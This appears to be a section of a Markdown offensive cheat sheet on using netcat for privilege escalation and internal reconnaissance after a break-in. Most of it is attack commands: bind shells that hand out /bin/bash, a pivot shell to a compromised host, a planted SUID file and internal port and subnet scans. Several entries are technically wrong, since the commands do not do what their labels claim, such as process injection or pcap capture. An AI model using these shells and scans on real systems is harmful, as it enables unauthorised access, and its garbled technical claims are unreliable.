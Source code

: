 #### Privilege Escalation

After gaining initial access, escalating privileges is often necessary to gain full control over the target system.

1. **Exploiting SUID Binaries**: Transfers and executes an exploit targeting a vulnerable SUID binary.
    ```bash
    nc -l -p <attack_port> -e /bin/bash
    ```
2. **Using NetCat for Local File Transfer**: Transfers and compiles a local privilege escalation exploit on the target machine.
    ```bash
    nc -l -p <attack_port> < local_exploit.c
    gcc local_exploit.c -o local_exploit
    ./local_exploit
    ```
3. **Pivoting Through a Compromised System**: Uses NetCat to pivot through a compromised system, gaining access to other machines within the network.
    ```bash
    nc <compromised_ip> <compromised_port> -e /bin/bash
    ```
4. **Abusing Weak File Permissions**: Creates a SUID binary to escalate privileges by exploiting weak file permissions.
    ```bash
    echo "nc -l -p <attack_port> -e /bin/bash" > /tmp/exploit
    chmod +s /tmp/exploit
    ```
5. **Injecting NetCat into a Running Process**: Injects a NetCat backdoor into a running process, allowing for privilege escalation.
    ```bash
    echo -ne '\x50\x52\x45\x59' | nc -l -p <attack_port> -e /bin/bash
    ```

#### Internal Reconnaissance

Once inside a network, NetCat can help further map out the internal environment, identify critical systems, and plan subsequent attacks.

1. **Enumerating Internal Hosts**: Scans the internal subnet for SSH services, identifying potential targets.
    ```bash
    for ip in $(seq 1 254); do nc -zv <internal_subnet_prefix>.$ip 22; done
    ```
2. **Scanning for Internal Services**: Scans an internal IP for all open ports, providing a detailed service map.
    ```bash
    nc -zv <internal_target_ip> 1-65535
    ```
3. **Capturing Internal Traffic**: Captures internal network traffic for analysis.
    ```bash
    nc -l -p <capture_port> > internal_traffic.pcap
    ```
4. **Identifying Critical Systems**: Connects to internal systems to identify critical services such as SMB.
    ```bash
    nc -v <internal_ip> 445
    ```
5. **Service Enumeration and Version Detection**: Enumerates services and detects versions to identify vulnerable systems.
    ```bash
    nc -v <internal_ip> <target_port> -c "echo 'GET / HTTP/1.1\r\nHost: <internal_ip>\r\n\r\n'"
    ```
